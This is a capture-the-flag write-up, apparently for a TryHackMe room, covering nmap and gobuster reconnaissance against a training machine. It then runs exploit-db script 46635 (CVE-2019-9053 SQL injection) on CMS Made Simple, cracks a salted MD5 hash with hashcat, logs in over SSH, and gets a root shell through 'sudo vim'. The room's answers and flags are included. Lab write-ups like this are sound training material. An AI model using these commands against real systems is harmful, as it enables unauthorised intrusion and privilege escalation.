







#security #enumeration #privesc 

---

> Running an nmap scan against the target machine.

```
└─$ nmap -sC -sV 10.10.77.219 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-07 08:41 EDT
Nmap scan report for 10.10.77.219
Host is up (0.079s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.18.5.150
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Cant get directory listing: TIMEOUT
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 44.76 seconds

```

> We see there are 2 services below port 1000, `tcp` and `http`.
> We see there is 1 service above port 1000, namely `2222` running `ssh`.

###### How many services are running under port 1000? : `2` .

###### What is running on the higher port? : `ssh` .

> Opening the IP address in the browser, we see an apache page.
> Scanning through we see nothing special, so i performed a directory enumeration attack.

> The IP address changed because the machine terminated, use the target IP address.
```shell
gobuster dir -u http://10.10.48.197:80 -w /usr/share/wordlists/dirb/common.txt
```

> See there is a directory `/simple` that we can access.
> Opening it we see this page.


> Searching for CMS made simple on exploit db we see multiple entires with multiple versions.
> Scrolling down in the `/simple` directory, we see the version it is using.



> `CMS Made Simple 2.2.8`.
> On exploitdb, wee an exploit for versions less than `2.2.10` with `CVE-2019-9053`, relating to SQL injections. [exploit](https://www.exploit-db.com/exploits/46635).

###### What's the CVE you're using against the application?  : `CVE-2019-9053`.

###### To what kind of vulnerability is the application vulnerable? : `SQLi` .

> Downloading the exploit to run against the target machine.
> After downloading, we give it execute permissions.

```
chmod +x 46635.py
```

> We see in the exploit the following comments on how to run.



> Following the third option to crack with passowrd:

```
python 46635.py -u http://10.10.48.197/simple --crack -w /usr/share/wordlists/rockyou.txt
```

> Letting it run, we get errors for the print statements.
> Opening the file, and adding brackets after the print statements.
> Trying to run, we get an error in the `crack_password()` function, so i comment it out and will crack the password myself.
> Now it runs, and we get the following data:



> We have a salt and a password that are both hashed.
> Going to [hash-analyzer](https://www.tunnelsup.com/hash-analyzer/).



> We add the salt after the password itself and add a colon between to see that it is of type MD5 or MD4. 
> To confirm, we remove the salt and see that the password itself is also MD5 or MD4.
> The salt could be appended in the beginning, which is why we have to check both scenarios.

> Now that we know the password is MD5 with a salt, we use hashcat to crack it.
> We write the hash:salt into a file, `pass`.
> Then we look in hashcat for the mode that follows this procedure through `hashcat --help`.



> We see that it has mode = 10 where the pass is first then the salt.
> Running the command: 

```
└─$ hashcat -m 10 -a 0 -O 1dac0d92e9fa6bb2:0c01f4468bd75d7a84c7eb73846e8d96 /usr/share/wordlists/rockyou.txt
```
> Specifying the mode to 10, specifying the attack mode `-a 0` to be fastest, and specifying the wordlist `rockyou.txt`.
> Doesn't work, so we try the other mode `20`.

```
└─$ hashcat -m 20 -a 0 -O 1dac0d92e9fa6bb2:0c01f4468bd75d7a84c7eb73846e8d96 /usr/share/wordlists/rockyou.txt
```




> We see the password is `secret`.

###### Whats the password? : `secret` .

> We have from above the username `mitch`.
> Trying to login to `ssh` with the credentials `mitch:secret`.

> IP changed because machine terminated, use the target machine IP.
```
ssh mitch@10.10.253.222
```
> But we don't get any connection, this is because the `ssh` port is not the default one as we have seen through `nmap`, it is 2222.

```
ssh mitch@10.10.253.222 -p 2222
```
> Entering the password when asked.

> Listing the contents, we see the `user.txt` file. Opening the file to see contents.

```
└─$ cat user.txt
G00d j0b, keep up!
```

###### What's the user flag? : `G00d j0b, keep up!` .

> To check for other users, we traverse one directory up to go the `/home` directory and view the different user folders using `ls`.

```shell
$ pwd
/home/mitch
$ cd ..
$ ls
mitch  sunbath
$ 
```

> We see there is another user `sunbath`.
###### Is there any other user in the home directory? What's its name? : `sunbath` .

> First thing we do to escalate privileges, we see if we can run as the current user any binaries.

```
$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim

```

> We see that we can run as root `vim`.

###### What can you leverage to spawn a privileged shell? : `vim` .

> Going to GTFObins and searching for `vim`, we go to the `sudo` section.



> We see that we can create a root shell using vim and the given command.

```shell
sudo vim -c ':!/bin/sh'
```

> Running this command we see the shell change to root user.
> Changing the directory to `../../root`, we see the file `root.txt`.
> Opening it to view its contents.

```shell
# cat root.txt
W3ll d0n3. You made it!
```

###### What's the root flag? : `W3ll d0n3. You made it!` .

---
